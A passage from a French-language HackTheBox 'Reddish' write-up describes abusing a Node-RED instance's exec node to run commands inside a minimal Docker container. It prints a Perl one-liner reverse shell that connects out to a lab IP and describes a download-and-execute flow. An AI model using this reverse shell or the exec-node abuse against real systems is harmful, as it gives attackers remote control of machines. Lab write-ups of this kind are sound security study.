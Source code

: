 C'est un bon début mais ça ne nous amène malheureusement pas bien loin. Heureusement il y a une action *exec* qui sans trop de surprise permet d'exécuter des commandes du système (la colonne à droite donne les informations sur la *node* sélectionnée).  

J'ai un peu galéré à l'utiliser avant de comprendre que le déclencheur utilisé en début de chaîne n'était pas adapté. Il faut s'en remettre à la *node* baptisée *inject* qui est par défaut de type *timestamp*.  

L'avantage de cette *node* c'est que l'action se déclenche tout simplement quand on clique sur le petit carré sur sa gauche :)  

Un timestamp est alors passé à la *node* suivante. Dans le cas de la node exec ce timestamp serait utilisé comme argument pour la commande choisie.  

Il faut prendre soin dans les options d'*exec* de dire que l'on ne souhaite pas utiliser cette entrée (case à décocher, voir plus bas) et de définir nous même les arguments.  

Après quelques essais peu concluants pour obtenir un reverse shell j'ai exploré un peu le système de fichier de la machine pour voir qu'il s'agissait d'un docker (fichier *.dockerenv* à la racine) très minimaliste (pas de *netcat* bien sûr mais pas non plus de Python, de curl ni de wget, argh...)  

Tout juste un *Perl*... Allez il faut pas faire le difficile :D J'ai ressorti ce vieux [dc.pl](https://gist.github.com/islanddog/f5ad7636acf61fd963531ead7c784dc9) (je compte pas le nombre de machines que je lui ait fait visiter à une époque lointaine...) mais là encore grosse déception :  

![HackTheBox Reddish CTF Node-RED Perl TCP FAIL](https://github.com/devl00p/blog/raw/master/images/htb/reddish/reddish_perl_broken.png)

Quoi ? *Unknown Protocol* ? técépé tu connais pas ? Argh c'est pas vrai !  

Du coup je suis reparti dans mes *nodes* à la recherche du *Graal* pour uploader un fichier.  

Petite aparté, quand j'ai eu accès au système plus tard j'ai vu que certains étaient parvenu à obtenir leur reverse shell avec ce one-liner :  

```bash
perl -MIO -e $p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.13.103:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;
```

Oui Perl ça pique les yeux :p  

Finalement c'est ce download-execute en *Node-RED* qui a eu ma faveur :  

![HackTheBox Reddish CTF Node-RED download execute](https://github.com/devl00p/blog/raw/master/images/htb/reddish/reddish_download_execute.png)
